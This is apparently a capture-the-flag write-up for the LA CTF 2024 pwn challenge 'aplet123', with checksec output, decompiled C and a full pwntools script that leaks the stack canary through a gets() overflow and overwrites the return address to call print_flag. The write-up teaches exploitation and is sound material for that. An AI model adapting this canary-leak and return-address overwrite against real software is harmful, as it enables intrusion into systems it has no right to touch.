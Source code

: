 ```yaml
---
title: aplet123
date:  2024-02-25T20:00:00+02:00
description: Writeup for aplet123 [LA CTF 2024]
type: writeup
author: PineBel
tags:
- pwn
draft: false
---
```


## Challenge Description:

bliutech: Can we get ApletGPT?
me: No we have ApletGPT at home.
ApletGPT at home:

## Intuition 

We are given an ELF 64-bit binary with the following protections:
```bash 

$ checksec --file=aplet123
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   49 Symbols        No    0               3               aplet123

```

We can see that it has canary and No PIE, after opening it in Ghidra we can see that we have three options from which we can choose, the only one that actually leaks something is the first option which can be entered if our input has 'i'm' in it. In Ghidra we can also see a print_flag function, so this seems like a ret2win where we first need to leak the canary and then call the print_flag function.



```C
undefined8 main(void)

{
  int iVar1;
  time_t tVar2;
  char *pcVar3;
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  puts("hello");
  while( true ) {
    while( true ) {
      while( true ) {
        gets(local_58);
        pcVar3 = strstr(local_58,"i\'m");
        if (pcVar3 == (char *)0x0) break;
        printf("hi %s, i\'m aplet123\n",pcVar3 + 4);
      }
      iVar1 = strcmp(local_58,"please give me the flag");
      if (iVar1 != 0) break;
      puts("i\'ll consider it");
      sleep(5);
      puts("no");
    }
    iVar1 = strcmp(local_58,"bye");
    if (iVar1 == 0) break;
    iVar1 = rand();
    puts(*(char **)(responses + ((ulong)(long)iVar1 % 0x21) * 8));
  }
  puts("bye");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}

```
The exploit for this challenge is to first leak the canary with the first option and then call the print_flag function. I also leaked the addresses of the print_flag function even though this wasn't necessary because it had No PIE.

### Solution

The solution is pretty straightforward, it's a ret2win with the need to leak the canary. 

```py
from pwn import *

gdbscript = """
b *main
c
"""

#target = gdb.debug("./aplet123",gdbscript=gdbscript)
#target = process("./aplet123")
target = remote("chall.lac.tf",31123)
# this is extra
main_offset = 0x401261
print_flag_offset = 0x4011e6
function_offset = main_offset - print_flag_offset

# ============================= Canary Leak =============================

padding = 69*"A" + "i'm"
#we want to leak the main address so first I'll leak the canary so we can read after the canary what mains address is
target.sendlineafter(b"hello",padding.encode())
target.recvline()
canary = target.recvline()

leaked_canary = ''
for i in range(3,10):
    if (chr(canary[i])!= ','):
        leaked_canary += canary[i].to_bytes().hex()   
    else:
        break 

# format the address
leaked_canary = "".join(reversed([leaked_canary[i:i+2] for i in range(0,len(leaked_canary),2)]))
print(hex(int(leaked_canary,16)))

# ============================= Canary Leak =============================

# No need to leak the main if we have NO pie, I still did it 
# ============================= Main Leak =============================

padding = 100*"A" + "i'm"
target.sendline(padding.encode())
main = target.recvline()

leaked_main = ''
for i in range(3,10):
    if (chr(main[i])!= ','):
        leaked_main += main[i].to_bytes().hex()   
    else:
        break 

# format the address
leaked_main = "".join(reversed([leaked_main[i:i+2] for i in range(0,len(leaked_main),2)]))
print(hex(int(leaked_main,16)))

# ============================= Main Leak =============================

main_address = int(leaked_main,16)
print(main_address,function_offset)
print_flag_address = main_address - function_offset
print(hex(print_flag_address))

# ============================= Create Payload =============================

leaked_canary += "00"
payload = 9*8*b"A" + p64(int(leaked_canary,16)) + 8*b"B" + p64(print_flag_address)
target.sendline(payload)

# gdb.attach(target)
# pause()

target.sendline(b"bye")

# ============================= Create Payload =============================

target.interactive()
```